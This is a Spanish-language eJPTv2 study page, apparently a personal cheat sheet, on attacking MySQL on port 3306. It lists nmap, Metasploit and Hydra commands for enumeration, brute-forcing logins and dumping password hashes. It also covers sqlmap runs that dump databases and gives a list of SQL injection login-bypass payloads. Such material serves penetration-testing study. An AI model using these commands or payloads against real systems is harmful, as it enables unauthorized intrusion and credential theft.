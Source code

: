 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# 🔍Puerto - 3306 - MySQL & SqlMap

El puerto 3306 es utilizado por el servicio MySQL, una de las bases de datos más utilizadas en entornos empresariales y de desarrollo. Debido a su criticidad, es un objetivo frecuente en auditorías de seguridad.

##  Resumen de Herramientas y Técnicas para Auditoría en MySQL

- 🔍 Nmap + Scripts NSE: Enumeración y detección de vulnerabilidades.
- 🔧 Metasploit: Explotación de fallos y acceso no autorizado.
- 🛠️ Hydra & Medusa: Ataques de fuerza bruta para credenciales.
- 📊 Sqlmap: Pruebas de inyección SQL automatizadas.

## 🕵️ Reconocimiento e Identificación del Servicio MySQL

Determinar la versión del servicio MySQL es fundamental para detectar posibles vulnerabilidades.

```bash
nmap -p 3306 -sCV <ip_victima> # Escaneo para intentar ver la versión.
mysql -u "root" -N -h --skip-ssl <ip_victima> # Probar a iniciar sesión con una null session.
mysql -u <username> -h <ip_víctima> -p # Iniciar sesión con credenciales válidas.
nmap -p 3306 --script mysql-info <ip_victima>
nmap -p3306 --script vuln <ip_victima> # Escaneo completo de vulnerabilidades.
nmap -p 3306 --script mysql-audit,mysql-databases <ip_victima>
nmap -p 3306 --script mysql-users,mysql-variables <ip_victima> # Enumeración de usuarios y variables del servidor.
nmap -p 3306 --script=mysql-empty-password <ip_victima> # Detección de contraseñas vacías.
nmap -p 3306 --script=mysql-variables --script-args="mysqluser='<username>',mysqlpass='<password>'" <ip_victima> # Obtener Variables de Configuración con Credenciales
nmap -p 3306 --script=mysql-dump-hashes --script-args="username='<username>',password='<password>'" <ip_victima> # Extracción de Hashes de Contraseñas
nmap -p 3306 --script=mysql-query --script-args="query='select count(*) from <nombre_db>.<nombre_tabla>;',username='<username>',password='<password>'" <ip_victima> # Ejecución de Consultas Personalizadas
nmap -p 3306 --script ms-sql-brute --script-args userdb=/<wordlists.txt>,passdb=/<wordlists.txt> <ip_victima> # Fuerza Bruta contra SQL Server
```

## 🔨 Uso de Metasploit para Auditoría de MySQL.

Enumeración de usuarios.

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_enum # Enumeración de usuarios
set RHOSTS <ip_victima>
run
```

Ataque de autenticación débil.

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip_victima>
set USERNAME root
set PASSWORD password
run
```

Lista de recursos mysql

```bash
use auxiliary/admin/mysql/mysql_enum # Enumeración de Información en MySQL
use auxiliary/admin/mysql/mysql_sql # Ejecución de Consultas SQL
use auxiliary/scanner/mysql/mysql_file_enum # Enumeración de Archivos en el Sistema
use auxiliary/scanner/mysql/mysql_hashdump #Extracción de Hashes de Contraseñas
use auxiliary/scanner/mysql/mysql_schemadump # Extracción de la Estructura de la Base de Datos
use auxiliary/scanner/mysql/mysql_version # Identificación de la Versión de MySQL
use auxiliary/scanner/mysql/mysql_writable_dirs # Identificación de Directorios con Permisos de Escritura
```

## 🔑 Fuerza brutal al servicio MySQL

Hydra

```bash
hydra -l <username> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip_victima> mysql
# Si hicieramos un ataque de fuerza bruta a diferentes usuarios podriamos utilizar la flag -u para iterar entre los diferentes usuarios y que no vaya uno por uno probando todas las contraseñas.
```

## Metasploit

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_login # Ataque de Fuerza Bruta contra MySQL
set RHOSTS <ip_victima>
set USER_FILE /ruta_diccionario.txt
set PASS_FILE /ruta_diccionario.txt
set USERNAME <username>
set password <password>
set THREADS <número> # Definir número de intentos por segundo (Opcional, por defecto 5)
exploit
```

SqlMap para auditar panel login.

1. Lo primero que debemos hacer es interceptar la petición en Burpsuite y le damos en la opción Copy to file.
2. Ahora que tenemos guardado el archivo de la petición, vamos a lanzar la herramienta sqlmap con la siguiente sintaxis:

```bash
sqlmap -r <nombre_archivo>
```

De este modo lo que le estaremos indicando a sqlmap los parámetros en los que tiene que actuar.

El uso mas básico que le podríamos dar a esta herramienta seria el siguiente:

```bash
sqlmap -u '<url>' --forms --batch --dbs 
```


--forms: Este parámetro le indica a sqlmap que busque formularios en la página web. Los formularios son a menudo puntos de entrada para datos proporcionados por el usuario, lo que significa que son posibles vectores de inyección SQL. sqlmap escaneará los formularios que encuentre y los probará para detectar vulnerabilidades.

--batch: sqlmap interactúa con el usuario durante su ejecución para hacer preguntas o solicitar confirmaciones. El uso de --batch hace que sqlmap tome las decisiones automáticamente utilizando sus valores predeterminados, sin pedir interacción con el usuario. Es útil cuando se ejecuta sqlmap en scripts o cuando quieres automatizar el proceso.

--dbs: Este parámetro le dice a sqlmap que, si encuentra una vulnerabilidad de inyección SQL, debe enumerar las bases de datos disponibles en el servidor. Es una opción utilizada para extraer información crítica, que en este caso son los nombres de las bases de datos.

Una vez sepamos que bases de datos existen, vamos seguir utilizando sqlmap pero esta vez le vamos a proporcionar otra sintaxis.

añadiremos -D <nombre_db> y --tables para indicarle por un lado que nos muestre la base de datos de users y por otro lado que nos muestre las columnas de dicha base de datos.

```bash
sqlmap -u '<url>' --forms --batch -D <nombre_db> --tables
```

Ahora que sabemos el nombre de dicha columna, vamos a indicarle a sqlmap que nos haga otra petición pero esta vez con el parámetro --colums

```bash
sqlmap -u '<url>' --forms --batch -T <nombre> --columns
```

Cuando no tenemos mucha información otro parámetro que podemos utilizar es: --dump que nos arrojará toda la información posible sin necesidad de tener que ir 1 por 1. (significativamente mas lento)

```bash
sqlmap -u '<url>' --forms --batch --dump
```

##📊 Comando para interactuar con MySQL

```bash 
mysql -u <usuario>  -p # Iniciar sesión con credenciales válidas.
mysql -h <ip_servidor_> -u <usuario> -p # Conectarte a un servidor MySQL remoto.
mysql -h <ip_servidor> -P <puerto> -u <username> -p # MySQL escucha en un puerto distinto al 3306, especifica el puerto.
help # Abre el menu de ayuda
show databases; # Mostrar Bases de Datos.
use <nombre_basededatos>; # Seleccionar una Base de Datos.
show tables; # Mostrar Tablas dentro de la Base de Datos.
describe <nombre>; # Describir la Estructura de una Tabla.
select * from <nombre> # Extraer Todos los Registros de una Tabla.
SELECT <nombre_columna> FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='<nombre_tabla>'; # Muestra todas las columnas** de una tabla sin necesidad de DESCRIBE.
SELECT user,host FROM mysql.user; # Buscar Usuarios de MySQL
SELECT user,authentication_string FROM mysql.user; # Obtener los Hashes de Contraseñas de los Usuarios MySQL.
```

---

🛑 Errores Comunes y Soluciones

1️⃣ Error: Access denied for user 'root'@'localhost' (using password: YES)
🔹 Solución: Asegúrate de que la contraseña es correcta o usa `sudo mysql -u .

2️⃣ Error: Can't connect to MySQL server on '127.0.0.1' (111)**
🔹 Solución: Verifica que MySQL está corriendo.

----

## Algunos ejemplos de SQLinjection

```bash
admin' --
admin' #
admin' /*
' OR 1=1;-- -
' OR 1=1#
' OR 1=1/*
') OR '1'='1-- -
') OR ('1'='1-- -
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1-- -
```

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>

